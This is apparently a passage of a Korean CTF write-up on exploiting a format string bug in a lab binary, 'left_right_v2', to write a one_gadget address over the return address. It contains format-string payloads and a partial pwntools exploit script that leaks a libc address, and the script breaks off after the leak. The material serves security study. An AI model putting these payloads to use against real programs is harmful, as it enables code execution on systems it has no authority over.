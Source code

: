 ### RAO

이후, 우리는 RET에 값을 넣어야 하기에 offset 10의 값을 확인해보면 RET 주소와 `0xd8` 차이가 나는 것을 알 수 있기에 해당 값을 받아와 해당 위치에 **one gadget**을 write할 계획이다.

현재의 FSB offset이 6일 경우 **AAAAAAAA**라는 값을 넣고 FSB exploit을 진행하게 된다면 `AAAAAAAA%6$n` 이미 입력한 AAAAAAAA에 또 다시 AAAAAAAA를 넣게 된다는 것이다.

그렇다면 해당 offset을 변경하여 우리가 변경할 주소를 넣어야 한다.

아래는 `%100c%7$hnn\x11\x22\x33` fsb 진행했을 때의 printf의 스택 모양을 표현한 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/204457547-30ff5c9b-2cd0-41db-9dfc-f86d4f457ed2.jpg" width = 360>
</p>

`%100c`에 해당하는 포맷을 offset 7에 넣게 된다면 `hnn\x11\x22\x33`에 넣게 된다. 그렇다면 입력 값을 offset 6과 offset 7에 사용하지 못하게 된다.

offset 8을 사용하기 위해서는 아래와 같은 스택으로 페이로드를 짜면 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/204460537-18d84beb-03d3-409b-bc99-8724cb60e090.jpg" width = 360>
</p>

`%100c%8$hnnAAAAA\x11\x22\x33`과 같은 페이로드를 작성하였을 때의 모습이다. 이렇게 된다면 %100c에 해당하는 포맷을 `\x11\x22\x33`에 주소에 덮어 씌울 수 있게 된다.

이렇게 padding이 존재하지 않을 경우 넣고자 하는 offset에 들어가지 않기에 필수적으로 필요하다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(1))
        p.sendlineafter('move >> \n', str(1))
    p.sendlineafter('opt >> \n', str(1))
    p.sendlineafter('way >> \n', str(1))
    p.sendlineafter('move >> \n', str(1))

def left():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(2))
        p.sendlineafter('move >> \n', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = libc.symbols['__libc_start_main'] + 231
og_list = [0x4f2a5, 0x4f302, 0x10a2fc]

move()
payload = '%13$p'
p.sendlineafter("What's your name?", payload)
p.recvuntil('=======================\n')

leak = int(p.recvuntil(b'\n')[:-1],16)
```